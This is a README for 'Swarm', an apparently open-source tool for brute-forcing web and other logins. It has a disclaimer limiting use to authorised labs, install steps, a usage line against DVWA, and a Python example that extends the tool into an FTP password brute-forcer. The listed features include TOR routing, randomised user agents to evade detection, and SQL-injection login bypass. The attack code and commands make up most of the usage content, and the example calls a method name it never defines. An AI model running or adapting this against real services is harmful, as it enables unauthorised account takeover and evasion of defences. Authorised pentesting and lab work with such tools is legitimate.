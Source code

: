 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Supports TOR
* By-pass logins via SQL Injections
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
##Usage

###For all options
```shell
./swarm --help
``` 
###Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Inheritence Example - FTPHive
```python
from hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                        pass
                return success

	# function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

	def post_exploit(self,credential):
		# -------- Do Something ----------
		# Such as display a custom login message
		# Store credentials in a Database, etc.
		exit()	

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'			# specify the target 
ftp_bruteforce.usernameFile = 'usernames.txt'			# the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'			# the password file to use
ftp_bruteforce.verbose = True					# verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.postExploit)	# Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()						# setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)				# starts the bruteforcing task
```

